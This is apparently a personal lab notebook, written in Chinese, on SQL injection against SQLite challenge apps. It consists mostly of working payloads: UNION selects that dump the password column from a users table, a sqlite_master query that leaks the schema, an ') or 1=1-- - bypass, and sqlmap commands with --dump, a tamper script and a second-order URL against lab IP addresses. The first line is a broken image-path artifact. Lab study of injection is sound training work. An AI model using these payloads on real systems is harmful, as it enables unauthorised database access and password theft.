 暴字段

```
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```



## 身份验证

```
' union select 1,2
' UNION SELECT 1, password from users-- -
' UNION SELECT 1,group_concat(password) FROM users-- -
```

## 盲注 

这里推荐是 sqlmap 

```
sqlmap -u http://10.10.76.250:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump
```
[[linux工具#sqlmap]]


## sql inject lab 小笔记
[[linux工具#sqlmap]]
```
sqlmap --tamper so-tamper.py --url http://10.10.1.134:5000/challenge4/signup  --data "username=admin&password=asd" 
--second-url http://10.10.1.134:5000/challenge4/notes  -p username --dbms sqlite --technique=U --no-cast

# --tamper so-tamper.py - The tamper script
# --url - The URL of the injection point, which is /signup in this case
# --data - The POST data from the registraion form to /signup. 
#   Password must be the same as the password in the tamper script
# --second-url http://10.10.1.134:5000/challenge4/notes - Visit this URL to check for results
# -p username - The parameter to inject to
# --dbms sqlite - To speed things up
# --technique=U - The technique to use. [U]nion-based
# --no-cast - Turn off payload casting mechanism
```

## book test
思路

其实前面都是瞎折腾

```
') or 1=1-- -
```

有一个提示 这个可以爆出所有书名

```
') union select 1,2,3,4-- -
```
可以看出注入点
